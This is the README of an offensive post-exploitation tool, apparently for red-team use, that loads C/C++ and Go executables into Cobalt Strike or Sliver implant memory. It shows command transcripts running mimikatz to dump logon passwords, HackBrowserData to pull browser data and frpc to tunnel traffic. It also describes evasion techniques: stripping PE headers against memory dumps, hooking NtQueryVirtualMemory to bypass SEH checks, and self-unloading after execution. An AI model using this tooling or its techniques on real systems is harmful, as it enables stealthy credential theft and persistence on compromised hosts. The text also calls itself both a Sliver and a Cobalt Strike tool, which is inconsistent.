

# Sliver-Execute-All

A sophisticated in-memory PE loader for Sliver that supports C/C++ and Golang executables with advanced features like SEH, asynchronous execution, streaming output, and automatic unloading.

(Just made working extension.json for Sliver's extension manager,so I left README untouched, except for some POC pics)

## Table of Contents

- [Overview](#overview)
- [Features Comparison](#features-comparison)
- [Supported Programs](#supported-programs)
- [Features](#features)
- [Usage](#usage)
  - [inline-execute-cpp](#inline-execute-cpp)
  - [inline-execute-go](#inline-execute-go)
  - [inline-log-pe](#inline-log-pe)
  - [inline-list-pe](#inline-list-pe)
- [Advanced Settings](#advanced-settings)
- [Architecture](#architecture)
- [Technical Implementation](#technical-implementation)
  - [In-Memory PE Mapping](#in-memory-pe-mapping)
  - [API Emulation](#api-emulation)
  - [SEH Support](#seh-support)
  - [Asynchronous Execution](#asynchronous-execution)
  - [Asynchronous Logging](#asynchronous-logging)
  - [Self-Unloading](#self-unloading)
- [Building](#building)
- [Important Notes](#important-notes)
- [License](#license)

## Overview

This project is an in-memory PE loader designed for Cobalt Strike that prioritizes both usability and stealth. Unlike existing solutions, it combines the best features of BOF-based execution with advanced capabilities like SEH support, asynchronous execution, and streaming output.

**Why Another PE Loader?**

Existing solutions have limitations:

- **Inline-Execute-PE**: Blocks the entire Beacon during PE execution due to BOF architecture. Cannot run long-running tools like fscan, and doesn't support Golang programs.
- **SharpBlock**: Requires execute-assembly to load a .NET assembly, which then spawns a new process using Process Hollowing. This creates additional processes and relies on .NET.

This project uses BOF to load PE files directly into the current process memory, implementing advanced techniques to achieve features from both solutions while eliminating their drawbacks.

## Features Comparison

|                        | Inline-Execute-PE         | SharpBlock            | Inline-Execute-All           |
| ---------------------- | ------------------------- | --------------------- | ---------------------------- |
| BOF                    | ✅                         | ❌ (C#, requires .NET) | ✅                            |
| In-Process Execution   | ✅                         | ❌ (Process Hollowing) | ✅                            |
| Asynchronous Execution | ❌ (BOF blocks Beacon)     | ✅                     | ✅                            |
| Streaming Output       | ❌ (same as async)         | ✅                     | ✅                            |
| SEH Support            | ❌                         | ❌                     | ✅                            |
| TLS Support            | ❌                         | ❌                     | ❌                            |
| Win32 Resources        | ✅                         | ✅                     | ❌ (intentional)              |
| Auto Unload            | ⚠ (shallow, memory leaks) | ✅                     | ⚠ (minimal leaks)            |
| Large PE Files         | ❌                         | ✅                     | ✅                            |
| C/C++ Programs         | ✅                         | ✅                     | ⚠ (requires /MT static link) |
| Golang Programs        | ❌                         | ✅                     | ✅                            |
| .NET Assemblies        | ❌                         | ❌                     | ❌                            |
| Exception Protection   | ❌                         | ✅                     | ✅                            |

## Supported Programs

|                    | Inline-Execute-PE | SharpBlock | Inline-Execute-All |
| ------------------ | ----------------- | ---------- | ------------------ |
| HelloWorld (C/C++) | ✅                 | ✅          | ✅                  |
| HelloWorld (Go)    | ❌                 | ✅          | ✅                  |
| frp                | ❌                 | ✅          | ✅                  |
| gohttpserver       | ❌                 | ✅          | ✅                  |
| fscan              | ❌                 | ✅          | ✅                  |
| HackBrowserData    | ❌                 | ✅          | ✅                  |
| UACME (modified)   | ⚠ (no SEH)        | ⚠ (no SEH) | ✅                  |
| mimikatz           | ⚠ (no SEH)        | ⚠ (no SEH) | ✅                  |

## Features

**Supported:**

- ✅ Ready-to-use BOF and Aggressor Script
- ✅ In-process execution without process injection
- ✅ Asynchronous execution - doesn't block BOF return, supports long-running tasks
- ✅ Streaming output - real-time stdout/stderr during Beacon check-ins with proper encoding
- ✅ SEH (Structured Exception Handling) - supports RPC and other SEH-dependent operations
- ✅ Automatic self-unload after PE completes execution
- ✅ C/C++/Golang programs
- ✅ Exception crash prevention, no matter how your memory PE crashes (even in other threads), you can still ensure that your Beacon will not exit.

**Not Supported:**

- ❌ TLS - no practical BOF-compatible solution, rarely needed
- ❌ Win32 Resources - intentionally removed PE headers to prevent memory dumps
- ❌ .NET Assemblies - completely different loading mechanism

> [!CAUTION]
> C/C++ programs must be statically compiled using /MT. Otherwise, neither the command line nor Stdio will work properly!

## Usage

Load the Aggressor Script in Cobalt Strike. This provides four commands:

- `inline-execute-cpp` - Load and execute C/C++ programs
- `inline-execute-go` - Load and execute Golang programs
- `inline-log-pe` - Fetch logs and complete stdout/stderr output
- `inline-list-pe` - List loaded PE images

The loaded PE will automatically self-unload after completion. No manual intervention required.

> [!CAUTION]
> After enabling Job (default), you will see a pseudo-process in the return results of jobs. It is prohibited to use jobkill to remove this entry, otherwise it will cause the entire Beacon to crash!

> [!TIP]
> inline-execute-cpp/go can write the original command line parameters directly after the first parameter (that is, the exe path) without any escaping, and the quotes will be passed to PE intact.

### inline-execute-cpp

Load and execute C/C++ programs. The first argument is the exe path, followed by raw command-line arguments (quotes work as normal):

```
Command: inline-execute-cpp
Summary: This command will run a BOF to load a C/C++ PE file into beacon memory.
         Supports x86/x64 C/C++ PE file. Golang/C# are not supported.

Usage:   inline-execute-cpp </path/to/cpp_binary.exe> [args]
         </path/to/cpp_binary.exe> Required. Full path to the C/C++ exe you wish you load into the beacon.
         [args]                    Optional. Raw command line arguments. Use double quotes as usual.

         Example: inline-execute-cpp C:\MyTools\mimikatz.exe privilege::debug sekurlsa::logonpasswords exit
```

**Example (HelloWorld):**

```
beacon> inline-execute-cpp "C:\Users\admin\Desktop\helloworld_c.x64.exe"

[+] host called home, sent: 176589 bytes
[+] received output:
Job 0 was added. Never use 'jobkill' for this PE image!
[+] received output:
PE image was loaded. (imageBase: 000001EF43590000, imageSize: 29000, entryPoint: 000001EF43591660)
[+] received output:
Hello, World!
你好，世界！
helloworld.txt has been written in C:\Users\admin\Desktop
Process exited with code 0.
```

**Example (mimikatz):**

```
beacon> inline-execute-cpp "C:\Users\admin\Desktop\mimikatz.exe" privilege::debug sekurlsa::logonpasswords exit

[+] host called home, sent: 589816 bytes
[+] received output:
Job 0 was added. Never use 'jobkill' for this PE image!
[+] received output:
PE image was loaded. (imageBase: 0000024825560000, imageSize: 177000, entryPoint: 00000248256D48D0)
[+] received output:

mimikatz(commandline) # privilege::debug
Privilege '20' OK

mimikatz(commandline) # sekurlsa::logonpasswords
[... credential output ...]

mimikatz(commandline) # exit
Bye!
Process exited with code 0.
```

> **Note**: mimikatz must be statically compiled with `/MT`.

### inline-execute-go

Load and execute Golang programs. The first argument is the exe path, followed by raw command-line arguments:

```
Command: inline-execute-go
Summary: This command will run a BOF to load a golang PE file into beacon memory.
         Supports x86/x64 golang PE file. C/C++/C# are not supported.

Usage:   inline-execute-go </path/to/go_binary.exe> [args]
         </path/to/go_binary.exe> Required. Full path to the golang exe you wish you load into the beacon.
         [args]                   Optional. Raw command line arguments. Use double quotes as usual.

         Example: inline-execute-go C:\MyTools\HackBrowserData.exe
         Example: inline-execute-go C:\MyTools\frpc.exe stcp -s test.com -P 1234 -t 1234 -n "my name" -l 1234
```

**Example (HelloWorld):**

```
beacon> inline-execute-go "C:\Users\admin\Desktop\helloworld_go.x64.exe"

[+] host called home, sent: 2074062 bytes
[+] received output:
Job 5 was added. Never use 'jobkill' for this PE image!
[+] received output:
PE image was loaded. (imageBase: 000001EF435F0000, imageSize: 285000, entryPoint: 000001EF43654180)
[+] received output:
Hello, World!
你好，世界！
helloworld.txt has been written in C:\Users\admin\Desktop
Process exited with code 0.
```

**Example (HackBrowserData):**

```
beacon> inline-execute-go "C:\Users\admin\Desktop\hack-browser-data.exe"

[+] host called home, sent: 3127758 bytes
[+] received output:
Job 6 was added. Never use 'jobkill' for this PE image!
[+] received output:
PE image was loaded. (imageBase: 000001EF43890000, imageSize: 9f9000, entryPoint: 000001EF44286DE0)
[+] received output:
[... browser data extraction logs ...]
Process exited with code 0.
```

### inline-log-pe

Fetch logs and complete stdout/stderr output. The first argument is the image base (optional, defaults to last loaded PE):

```
Command: inline-log-pe
Summary: This command will run a BOF to fetch logs from a running PE image.

Usage:   inline-log-pe [image_base]
         [image_base] Optional. The hex string of the image base which pointer to the PE image in memory. 
                      Default value is the last loaded PE image.

         Example: inline-log-pe
         Example: inline-log-pe 0x008D0000
```

**Example:**

```
beacon> inline-log-pe 000001EF435B0000

[+] host called home, sent: 2699 bytes
[+] received output:
Stdout: Hello, World!
你好，世界！
Arguments passed: 参数
helloworld.txt has been written in C:\Users\admin\Desktop

[+] received output:
Stderr: 
```

### inline-list-pe

List all loaded PE images with details:

```
Command: inline-list-pe
Summary: This command will run a BOF to list all loaded PE images with some details.

Usage:   inline-list-pe

         Example: inline-list-pe
```

**Example:**

```
beacon> inline-list-pe

[+] host called home, sent: 2346 bytes
[+] received output:
Loaded PE images:
[+] received output:
0: ImageBase: 000002015D490000 (unloaded), Available logs: 0, IsRunning: 0, JobId: 0
[+] received output:
1: ImageBase: 000002015D4B0000, Features: 3000f, Available logs: 0, IsRunning: 1, CommandLine: gohttpserver.exe, JobId: 1
```

## Advanced Settings

The `inline-execute-all.cna` script provides advanced settings for debugging and feature control. Reload the script after modifications:

```javascript
$trace_enabled = false; // Enable trace logging in cna script
$use_debug_bof = false; // Use debug version of BOF
$use_job = true;        // Use beacon jobs for automatic log fetching (Recommended)

// Features for C/C++ PE files
$features_cpp = $HookFeatureRedirectStdio | $HookFeatureStreamingOutput | 
                $HookFeatureCommandLine | $HookFeatureUnload | 
                $HookFeatureVirtualFileSystem | $HookFeatureExceptionGuard | 
                $HookFeatureCpp | $HookFeatureCppSEH;

// Features for Golang PE files
$features_go = $HookFeatureRedirectStdio | $HookFeatureStreamingOutput | 
               $HookFeatureCommandLine | $HookFeatureUnload | 
               $HookFeatureVirtualFileSystem | $HookFeatureExceptionGuard | 
               $HookFeatureGo | $HookFeatureGoCobraFakeParentProcess;
```

- `trace_enabled` / `use_debug_bof` - Debug options for verbose loading information
- `use_job` - Controls Beacon Job API usage (pattern-matched, may be unstable in future CS versions). Disabling removes streaming output but keeps async logging
- `features_cpp` / `features_go` - Control enabled features. **Note**: `HookFeatureUnload` conflicts with BokuLoader, causing crashes after PE unload (BokuLoader bug)

## Architecture

The following diagram illustrates the execution flow:



## Technical Implementation

### In-Memory PE Mapping

The implementation is based on a modified version of [ReflectiveLoaderEx](https://github.com/wwh1004/ReflectiveLoaderEx), chosen for its clean and concise codebase. Other solutions with SEH/TLS support were too complex to adapt for BOF.

The modified ReflectiveLoaderEx removes PEB-based kernel32 resolution and return-address-based PE header detection, consolidating PE mapping into a single function:

```c
PVOID ReflectiveLoaderEx(PVOID *libraryAddress, 
                        PVOID loadLibraryA, 
                        PVOID getProcAddress, 
                        PVOID virtualAlloc, 
                        PVOID ntFlushInstructionCache, 
                        BOOL copyPEHeaders)
```

Import table hooking is achieved by providing a custom `GetProcAddress` implementation.

### API Emulation

Key hooked APIs:

- **ExitProcess** - Triggers self-unload sequence, finally exits thread
- **GetCommandLineA/W** - Provides fake command line
- **GetStdHandle** - Redirects stdio
- **Process32NextW** - Fakes parent process (prevents Golang Cobra CLI detection)
- **WriteFile** - Enables streaming stdio output
- **CreateThread** - Releases thread resources on Golang program exit
- **AddVectoredExceptionHandler/AddVectoredContinueHandler/SetConsoleCtrlHandler** - Releases kernel32 callbacks on Golang exit
- **VirtualAlloc/VirtualFree/TlsAlloc** - Tracks memory resources for Golang cleanup
- **GetProcAddress** - Supports nested dynamic API resolution (e.g., UPX)

> **Note**: Golang program exit detection MUST occur in `ExitProcess`, not by waiting for the main thread. Golang's goroutine scheduler has no main thread concept - after context switches, the entry point thread may no longer be running the main function.

### SEH Support

**x64**: Uses the exported `RtlAddFunctionTable` to register exception handlers in ntdll.

**x86**: No exported function exists. Current solutions (Blackbone, MemoryModulePP) use signature scanning to find the unexported `RtlAddFunctionTable` and required parameters. This requires version-specific signatures, making universal support extremely tedious.

**New Solution**: Hook `NtQueryVirtualMemory` to bypass `RtlIsValidHandler` and enable SEH on x86.

The approach: Map PE normally with headers intact but remove Load Config table. Hook `NtQueryVirtualMemory` to change `Type` to `MEM_IMAGE` when the allocation base matches our PE.

**RtlIsValidHandler Flow:**

1. Check if EIP has a function table. If yes, validate handler against table (SafeSEH) and return result. Otherwise continue.
2. Get current process DEP info. If DEP disabled, allow execution. If enabled, validate memory page.
3. Verify EIP page is executable. If not executable and DEP forbids non-executable code, fail. Otherwise continue.
4. Verify page type is `MEM_IMAGE`. If `MEM_PRIVATE` (VirtualAlloc), check DEP flags and return. If `MEM_IMAGE`, continue.
5. Final validation: If belongs to a PE image with Load Config table (SafeSEH enabled), deny execution. If no PE or no function table, allow execution.

**Core x86 Hook Code:**

```asm
MyNtQueryVirtualMemory PROC STDCALL ProcessHandle:DWORD, BaseAddress:DWORD, 
                                   MemoryInformationClass:DWORD, MemoryInformation:DWORD, 
                                   MemoryInformationLength:DWORD, ReturnLength:DWORD
    push ebx
    INVOKE NtQueryVirtualMemoryTrampoline, ProcessHandle, BaseAddress, 
           MemoryInformationClass, MemoryInformation, MemoryInformationLength, ReturnLength

    ; if (eax >= 0) and (ProcessHandle == NtCurrentProcess) and (MemoryInformationClass == MemoryBasicInformation)
    .IF (SDWORD PTR eax >= 0) && (ProcessHandle == -1) && (MemoryInformationClass == 0)
        ; Check if AllocationBase is in our ImageBaseList
        ; If match, set mbi.Type = MEM_IMAGE
        ; [Implementation details omitted for brevity]
    .ENDIF

    pop ebx
    ret
MyNtQueryVirtualMemory ENDP
```

### Asynchronous Execution

Achieved by extracting the `.text` section from `hooks.dll` (C++ compiled) and running it as position-independent shellcode - the "Hooks (Shellcode)" in the architecture diagram.

By persisting Hooks in memory with the same lifecycle as the mapped PE (not unloading with BOF), features impossible in traditional BOF become possible. Since hooked APIs redirect to Hooks, they continue functioning correctly even after BOF returns.

### Asynchronous Logging

Two components: async logging itself and streaming output.

**Async Logging**: Implemented via Hooks that receive and queue logs, popping them when needed.

**Streaming Output**: More complex, leveraging reverse-engineered Beacon Job API. Tools like `execute-assembly` and `keylogger` use Job API for real-time output. Internally, pipes are added to a list, and on each Beacon check-in, all pipes are read and data pushed to the C2 server.

By pattern-matching Beacon's internal Job API to find the pipe list, `hooks.dll` can achieve streaming output by utilizing the Job API when logs arrive.

**Reverse-Engineered Job Structures:**

```c
#define JobDescriptionMax 64

typedef struct _JobEntryV1 {
  int JobId;
  PROCESS_INFORMATION Process;
  HANDLE OutputReadHandle;
  HANDLE OutputWriteHandle;
  struct _JobEntryV1 *Next;
  short IsNamedPipe;
  short IsCompleted;
  DWORD ProcessId;
  int CallbackType;
  short IsPacket;
  char Description[JobDescriptionMax];
} JobEntryV1;

// Cobalt Strike 4.9+ adds RequestId
typedef struct _JobEntryV2 {
  int JobId;
  PROCESS_INFORMATION Process;
  HANDLE OutputReadHandle;
  HANDLE OutputWriteHandle;
  struct _JobEntryV2 *Next;
  short IsNamedPipe;
  short IsCompleted;
  DWORD ProcessId;
  int CallbackType;
  int RequestId;
  short IsPacket;
  char Description[JobDescriptionMax];
} JobEntryV2;
```

### Exception Protection

To prevent the Beacon from crashing due to unhandled exceptions in loaded PE files, the project implements a Vectored Exception Handler (VEH) based exception protection mechanism.

The implementation uses `AddVectoredExceptionHandler` to register a global exception handler before PE execution. When an exception occurs in the PE's thread:

1. The VEH captures the exception and checks if it originated from the protected thread
2. If matched, it saves the exception information (code and address) and restores the context to a safe state
3. Execution continues from a predefined recovery point instead of crashing
4. The exception details can be logged for debugging purposes

Key macros in `vehprot.cc`:

- **VP_INIT** - Initializes the vectored exception handler by dynamically resolving APIs and registering the handler
- **VP_TRY** - Marks the beginning of protected code block, captures current thread context
- **VP_CATCH** - Handles exceptions that occurred in the protected block
- **VP_END** - Marks the end of the protected region
- **VP_UNINIT** - Removes the vectored exception handler on cleanup

This approach ensures that even if the loaded PE encounters critical errors (access violations, division by zero, etc.), the Beacon remains stable and operational.

### Self-Unloading

Triggered automatically when PE calls `ExitProcess`. The trick is using assembly to call `VirtualFree` first, then setting the return address to `ExitThread`. This avoids returning to freed memory after `VirtualFree` unloads itself.

**x64 Assembly:**

```asm
VirtualFreeAndExitThread PROC
    push r8
    mov rax, rdx
    mov r8, MEM_RELEASE
    mov rdx, 0
    jmp rax
    int 3
VirtualFreeAndExitThread ENDP
```

**x86 Assembly:**

```asm
VirtualFreeAndExitThread PROC
    push MEM_RELEASE
    push 0
    push ecx
    push dword ptr [esp + 0x10]
    jmp edx
    int 3
VirtualFreeAndExitThread ENDP
```

## Building

Use the provided build scripts:

**Windows:**
```cmd
build.bat
```

**Linux/macOS:**
```bash
./build.sh
```

The compiled BOF and Aggressor Script will be in the `bin/` directory.

## Important Notes

1. **C/C++ programs must be statically linked with `/MT`**
2. **Never use `jobkill` on the fake process created by this tool**
3. **TLS is not supported** - extremely rare requirement
4. **Win32 Resources are not supported** - PE headers intentionally removed
5. **.NET Assemblies are not supported** - use `execute-assembly` instead

## License

See [LICENSE.txt](LICENSE.txt) for details.
